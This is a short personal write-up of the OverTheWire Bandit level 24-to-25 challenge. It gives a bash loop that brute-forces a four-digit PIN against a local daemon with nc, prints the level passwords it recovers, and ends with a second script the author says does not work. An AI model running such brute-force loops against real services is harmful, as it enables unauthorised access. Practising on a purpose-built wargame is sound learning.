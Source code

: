 ## Bandit Level 24 -> Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

## Solution

write a bruteforcing script to crack the password
I tried several times but failed to solve it quickly
the program below refers Nikkko from wooyun, the link is [HERE](http://drops.wooyun.org/tips/6211)

```
$ cd /tmp
$ vim tbf.sh
pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {1000..10000}
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else
    echo $pass $i| nc localhost 30002
    exit
fi
}
done
$ chmod +x tbf.sh
$ ./tbf.sh
(afer about teo hours.....I got the following)
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---

But I think it's not necessary to use commond 'nc' so many times
I try to use redirct so as to 'nc ...' only once
It cound be faster and faster.

Like this:(but it doesn't work, If only someone could help me, thanks)
```
#!/bin/bash
pwd="MYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
exec 1>nc localhost 30002
for i in {1000..10000}
do
        echo $pwd $i
done
```
